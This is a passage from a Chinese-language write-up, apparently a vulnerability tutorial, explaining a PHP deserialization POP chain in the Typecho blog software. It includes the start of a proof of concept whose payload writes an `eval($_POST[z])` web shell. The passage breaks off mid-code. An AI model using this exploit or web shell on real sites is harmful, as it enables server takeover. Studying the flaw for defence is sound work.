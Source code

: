 ```

159-171 行
private function _applyFilter($value)
    {
        if ($this->_filter) {
            foreach ($this->_filter as $filter) {
                $value = is_array($value) ? array_map($filter, $value) :
                call_user_func($filter, $value);
            }

            $this->_filter = array();
        }

        return $value;
    }
```

数据传输过程很清晰；

## POC 构造

(1)因为 Feed.php 中的class Typecho_Feed{}属于 POP链 中的中间链接环，这里需要将其负责初始化的魔术函数`__construct`进行初始化；

(2)在 Feed.php 中`author -> screenName`这个不可访问的属性是 POP链 最终漏洞触发的连接点，所以在 Request.php 的 class Typecho_Request{} 类中危险函数`call_user_func ()`中要进行前后链接；

常见后门：call_user_func(函数名，函数参数)

这里正好可将$_filter数组变量的值作为函数名，$_params数组变量值为函数参数；

(3)进行两个类实例化，然后进行链接，即`Feed类中的key：author`和`Request类中的value：screenName`链接；

(4)最后回到 Db.php 中来，给构造函数`__construct()`参数进行赋值，以便 index.php 中实例化来调用；

(总)即反序列化`$config = unserialize(base64_decode(Typecho_Cookie::get('__typecho_config')));`后的数组传到`new Typecho_Db($config['adapter'], $config['prefix']);`来进行类的实例化，激活`Db.php的构造函数__construct($adapterName, $prefix = 'typecho_')`，由于存在字符串拼接，可激活`Feed.php中的__tostring()魔术方法`，又由于方法中存在从不可访问的属性读取数据`$item['author']->screenName`，可激活`Request.php中的__get()魔术方法`，里面躺着危险命令执行函数，数据一路下来传到危险函数，触发漏洞；

POC 只是反过来序列化输出；

```
<?php
	class Typecho_Request
		{
			private $_params = array('screenName'=> "file_put_contents('shell.php', '<?php eval(\$_POST[z]);//?>')");
			private $_filter = array('assert');
		}
		
	class Typecho_Feed
	{		
		const RSS2 = 'RSS 2.0';
		private $_type;
		private $_charset;
		private $_lang;
		private $_version;
		private $_items = array();
		// 中间层
		public function __construct($version = 1, $type = self::RSS2, $charset = 'UTF-8', $lang = 'en')
		{
			$this->_version = $version;
			$this->_type = $type;
			$this->_charset = $charset;
			$this->_lang = $lang;
		}
```